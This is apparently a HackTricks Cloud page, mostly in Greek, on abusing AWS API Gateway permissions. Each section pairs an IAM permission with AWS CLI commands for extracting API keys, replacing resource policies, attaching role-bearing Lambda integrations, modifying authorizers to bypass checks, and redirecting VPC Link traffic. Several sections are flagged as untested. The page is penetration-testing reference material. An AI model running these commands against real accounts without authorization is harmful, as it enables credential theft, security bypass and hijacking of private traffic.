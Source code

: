 # AWS - Apigateway Privesc

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στο** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) ή στο [**telegram group**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Με αυτή την άδεια μπορείτε να δημιουργήσετε API keys των APIs που έχουν ρυθμιστεί (ανά περιοχή).
```bash
aws --region <region> apigateway create-api-key
```
**Πιθανές Επιπτώσεις:** Δεν μπορείτε να κάνετε privesc με αυτή την τεχνική αλλά μπορεί να αποκτήσετε πρόσβαση σε ευαίσθητες πληροφορίες.

### `apigateway:GET`

Με αυτή την άδεια μπορείτε να αποκτήσετε τα παραγόμενα API keys των APIs που είναι ρυθμισμένα (ανά περιοχή).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Πιθανές Επιπτώσεις:** Δεν μπορείτε να αποκτήσετε δικαιώματα με αυτή την τεχνική, αλλά μπορεί να αποκτήσετε πρόσβαση σε ευαίσθητες πληροφορίες.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Με αυτές τις άδειες είναι δυνατή η τροποποίηση της πολιτικής πόρων ενός API για να αποκτήσετε πρόσβαση στην κλήση του και να εκμεταλλευτείτε την πιθανή πρόσβαση που μπορεί να έχει το API gateway (όπως η εκτέλεση μιας ευάλωτης lambda).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Πιθανές Επιπτώσεις:** Συνήθως, δεν θα μπορείτε να αποκτήσετε δικαιώματα άμεσης ανύψωσης με αυτή την τεχνική, αλλά μπορεί να αποκτήσετε πρόσβαση σε ευαίσθητες πληροφορίες.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Χρειάζεται δοκιμή
{% endhint %}

Ένας επιτιθέμενος με τις άδειες `apigateway:PutIntegration`, `apigateway:CreateDeployment`, και `iam:PassRole` μπορεί **να προσθέσει μια νέα ολοκλήρωση σε μια υπάρχουσα REST API του API Gateway με μια Lambda λειτουργία που έχει συνημμένο ρόλο IAM**. Ο επιτιθέμενος μπορεί στη συνέχεια **να ενεργοποιήσει τη Lambda λειτουργία για να εκτελέσει αυθαίρετο κώδικα και ενδεχομένως να αποκτήσει πρόσβαση στους πόρους που σχετίζονται με τον ρόλο IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Πρόσβαση σε πόρους που σχετίζονται με τον ρόλο IAM της λειτουργίας Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Χρειάζεται δοκιμή
{% endhint %}

Ένας επιτιθέμενος με τις άδειες `apigateway:UpdateAuthorizer` και `apigateway:CreateDeployment` μπορεί να **τροποποιήσει έναν υπάρχοντα εξουσιοδοτητή API Gateway** για να παρακάμψει τους ελέγχους ασφαλείας ή να εκτελέσει αυθαίρετο κώδικα όταν γίνονται αιτήσεις API.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Παράκαμψη ελέγχων ασφαλείας, μη εξουσιοδοτημένη πρόσβαση σε πόρους API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Χρειάζεται δοκιμή
{% endhint %}

Ένας επιτιθέμενος με την άδεια `apigateway:UpdateVpcLink` μπορεί **να τροποποιήσει έναν υπάρχοντα VPC Link ώστε να δείχνει σε έναν διαφορετικό Network Load Balancer, πιθανώς ανακατευθύνοντας ιδιωτική κίνηση API σε μη εξουσιοδοτημένους ή κακόβουλους πόρους**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Πιθανές Επιπτώσεις**: Μη εξουσιοδοτημένη πρόσβαση σε ιδιωτικούς πόρους API, παρεμβολή ή διακοπή της κυκλοφορίας API.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
